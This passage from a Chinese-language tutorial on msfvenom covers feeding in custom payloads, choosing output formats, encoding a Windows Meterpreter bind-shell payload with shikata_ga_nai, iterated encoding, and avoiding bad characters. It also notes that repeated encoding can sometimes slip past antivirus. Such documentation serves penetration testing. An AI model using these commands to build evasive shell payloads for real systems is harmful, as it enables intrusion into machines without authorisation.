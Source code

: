 -p选项也支持使用使用自定义的payload，需要使用 "-"，比如:

```bash
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

使用-f 来指定payload的输出格式

使用下面的命令，可以产看msf支持的输出格式

```bash
./msfvenom --help-formats
```

## **payload编码**

如果你使用了-b选项（设定了规避字符集），会自动调用编码器

其他情况下，你需要使用-e选项来使用编码模块，例如

```bash
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

可以使用下面的命令，来查看可用的编码器

```bash
./msfvenom -l encoders
```

你也可以使用-i选项进行多次编码。某些情况下，迭代编码可以起到规避杀毒软件的作用，但你需要知道，编码并没有使用一个真正意义上的AV规避方案

可以使用下面的命令来进行迭代编码

```bash
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3
```

## **规避字符**

使用-b选项意味着在生成payload的时候对某些字符进行规避。当你使用这个选项的时候，msfvenom会自动的使用合适的编码器对payload进行编码，比如

```bash
./msfvenom -p windows/meterpreter/bind_tcp -b &#039;\x00&#039; -f raw
```